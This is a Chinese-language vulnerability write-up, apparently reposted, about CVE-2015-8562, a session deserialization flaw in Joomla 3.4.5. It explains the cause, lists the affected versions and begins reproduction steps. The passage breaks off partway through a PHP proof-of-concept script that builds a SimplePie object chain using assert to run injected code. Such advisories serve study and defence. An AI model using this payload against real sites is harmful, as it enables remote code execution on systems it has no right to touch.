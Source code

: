# （CVE-2015-8562）Joomla 3.4.5 反序列化漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2997](https://www.zhihuifly.com/t/topic/2997)

# （CVE-2015-8562）Joomla 3.4.5 反序列化漏洞

## 一、漏洞简介

本漏洞根源是PHP5.6.13前的版本在读取存储好的session时，如果反序列化出错则会跳过当前一段数据而去反序列化下一段数据。而Joomla将session存储在Mysql数据库中，编码是utf8，当我们插入4字节的utf8数据时则会导致截断。截断后的数据在反序列化时就会失败，最后触发反序列化漏洞。

## 二、漏洞影响

*   Joomla 1.5.x, 2.x, and 3.x before 3.4.6
*   PHP 5.6 < 5.6.13, PHP 5.5 < 5.5.29 and PHP 5.4 < 5.4.45

## 三、复现过程

我们不带User-Agent头，先访问一次目标主页，记下服务端返回的Cookie：

![image](img/84fd084d2af91f2dd666e227df64f7e5.png)

再用如下脚本生成POC：

```
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}

class SimplePie {

var $sanitize;

var $cache;

var $cache_name_function;

var $javascript;

var $feed_url;

function __construct()

{

$this->feed_url = “phpinfo();JFactory::getConfig();exit;”;

$this->javascript = 9999;

$this->cache_name_function = “assert”;

```